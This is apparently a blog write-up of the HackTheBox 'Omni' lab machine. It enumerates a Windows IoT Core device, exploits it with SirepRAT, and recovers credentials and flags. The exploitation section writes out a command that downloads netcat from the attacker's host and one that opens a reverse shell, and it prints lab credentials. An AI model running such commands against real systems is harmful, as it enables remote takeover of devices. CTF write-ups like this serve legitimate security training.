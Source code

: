 ```yaml
---
date: 2021-01-09 23:48:05
layout: post
title: HackTheBox Omni Writeup
subtitle: Hackthebox Omni Writeup
description: >-
  in this blog i've explained how to solve Omni machine in hackthebox
image: https://i.ibb.co/WsG6YNc/logo.png
optimized_image: https://i.ibb.co/WsG6YNc/logo.png
category: hackthebox
tags:
  - hackthebox
  - Omni
author: Ahmed Fatouh
paginate: true
---
```

![logo](https://i.ibb.co/WsG6YNc/logo.png)

# []()Methodology

* Service Enumeration.
* Windows IoT core Exploitation.
* Privilege Escalation.

# []()Nmap Scan

> **as always, i’ll do nmap scan to find out which services running in this machine.**

* 135/tcp --> Microsoft Windows RPC
* 8080/tcp --> Microsoft IIS httpd

> **nmap -sC -sV -Pn -oN scan.txt 10.10.10.204**

```ruby

Nmap scan report for 10.10.10.204
Host is up (0.11s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
135/tcp  open  msrpc   Microsoft Windows RPC
8080/tcp open  upnp    Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

> **let's check the web service first.**

# []()Checking Web Service

![web-page](https://i.ibb.co/zRpFnrg/web-service.png)

> **i tried to ByPass the authentication by many ways but i failed, so let's dig more.**

# []()Windows IOT Core Exploitation.

> **from the nmap scan we know from the port 8080 that this is a windows device portal, so let's search for any exploits.**

![google-search](https://i.ibb.co/K6ds03Z/google-search.png)

* coole, let's read this [article](https://www.zdnet.com/article/new-exploit-lets-attackers-take-control-of-windows-iot-core-devices/) first.

> **from the article i understand that this is a RCE, so we will execute command on the server as we like.**

![](https://i.ibb.co/xGQSXq2/rce.png)

> **first let's download this [repo](https://github.com/SafeBreach-Labs/SirepRAT.git)**

> **after downloading this repo, let's make some noise now.**

> **first i will execute a command to upload the nc to Omni server, then i will execute another command to get reverse shell.**

* **let's go**

1. **let's upload nc to the machine.**

> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\Windows\System32\spool\drivers\color\nc64.exe -Uri http://10.10.16.4:8000/nc64.exe" --v

![](https://i.ibb.co/HXJB1z6/upload-nc.png)

2. **let's get a reverse shell**

> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe 10.10.16.4 9002 -e powershell.exe" --v

![](https://i.ibb.co/hVQSkX7/reverse-shell.png)

* **we got reverse shell as a system but this is a tricky part, we can't read user or root flag, so let's dig more.**

> in this PATH **C:\Program Files\WindowsPowerShell\Modules\PackageManagement** i've found a bat file which contain a credentials for user and administrator.

![credentials](https://i.ibb.co/fMkFjWn/creds.png)

```ruby

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

```

> **let's login to the web appliaction now with user credentials.**

![proccess](https://i.ibb.co/vPtR6RM/app-pcs.png)

> **there is a Proccesses tap and we can run commands from it**.

> **let's get a reverse shell now.**

![](https://i.ibb.co/6tqrHhs/app-whoami.png)

> **let's check our user.txt**

![](https://i.ibb.co/vh36BgH/user.png)

> **this file encrypted by PSCredential** so we need to decrypt it.

* **follow this [blog](https://community.idera.com/database-tools/powershell/powertips/b/tips/posts/exporting-and-importing-credentials-in-powershell)**.

> **$userflag = Import-Clixml -path user.txt**

> **$userflag.getnetworkcredential().password**

![](https://i.ibb.co/FWgKNYv/user-flag.png)

* **user flag done.**

# []()Privilege Escalation

> **open the web appliaction and login with administrator credentials and do the same steps.**

> **$adminflag = Import-Clixml -pat root.txt**

> **$adminflag.getnetworkcredential().password**

![](https://i.ibb.co/HTJBJGY/adminflag.png)

* cheers!

> **Thanks for reading.**

 <script src="https://www.hackthebox.eu/badge/103789"></script>


